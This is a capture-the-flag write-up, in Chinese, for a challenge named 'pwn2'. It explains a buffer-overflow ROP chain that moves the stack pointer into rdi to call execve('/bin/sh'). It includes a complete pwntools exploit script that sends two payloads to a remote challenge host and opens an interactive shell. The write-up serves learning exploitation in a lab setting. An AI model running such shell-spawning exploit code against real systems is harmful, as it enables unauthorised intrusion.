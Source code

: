 ## pwn2
本題可以buffer overflow進行ROP攻擊，`rax`可控，`/bin/sh`必須包含在payload中放到stack上，而`rsp`只能傳遞到`rsi`，因此先試著用`execveat(0, '/bin/sh, 0, 0, 0)`呼叫。

但嘗試的過程中發現execveat()的第5個參數(flag)需為0，在r8，且r8被設為字串不可控制，因此放棄此作法。

若要`exec()`，則`rsp`必須傳遞到`rdi`，但並沒有`mov rdi, rsi`的gadget可用，最後是在第一次payload中先`return`回`read_input`中的`mov rdx, rsi`將`rsi`傳遞至`rdx`，讀取輸入(送空白)，再跳回到`main`開頭，`push rdx`然後一路回到`read_input`，此時stack如下：

```
-------stack frame---------|--payload2--
rdx      -- main (&/bin/sh)| ---------stop here
rsi                        | pop rdi
rdi                        | SYS_exec
0x4000a9 -- magic          | pop rax (any)
rbp          --->          | ...
0x4000dc -- read_input     | ...

rsp -> rsi -> rdx -> stack -> rdi
```
再次buffer overflow，蓋掉部份目前的frame，使其從magic return時跳至gadget，而先任意pop一個暫存器(exploit中直接在此時將`rax`設為`exec()`的syscall)，接著再`ret`回`main`尾部的`pop rdi`，此時原本的`rdx`(`rsp`)就會傳遞到`rdi`，之後再將`rsi`, `rdx`都設定為`0`，然後跳至syscall即可。

注意payload2會蓋掉原本payload1中的`/bin/sh`，需要計算好相對位置再包在payload2裏面送。

### exploit
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')
binary = ELF('start_revenge')
rop = ROP(binary)

payload = b'/bin/sh\x00'
payload += cyclic(56 - len(payload)).encode()
payload += p64(0x400116) # rsp -> rdx
payload += p64(0x4000a1) # push rdx -> #2ndpayload
payload += p64(0) # rsi = 0
payload += p64(0) # rdx = 0
payload += flat(rop.rax.address, constants.SYS_execve)
payload += p64(0x4000bf) # execve

payload2 = b''
payload2 += cyclic(16 - len(payload2)).encode()
payload2 += b'/bin/sh\x00'
payload2 += cyclic(56 - len(payload2)).encode()
payload2 += flat(rop.rax.address, constants.SYS_execve)
payload2 += p64(0x4000a9) # pop rdi; pop rsi; pop rdx;

r = remote('10.13.2.43', 20739)
r.send(payload)
r.send(b'')
r.send(payload2)
r.interactive()
```
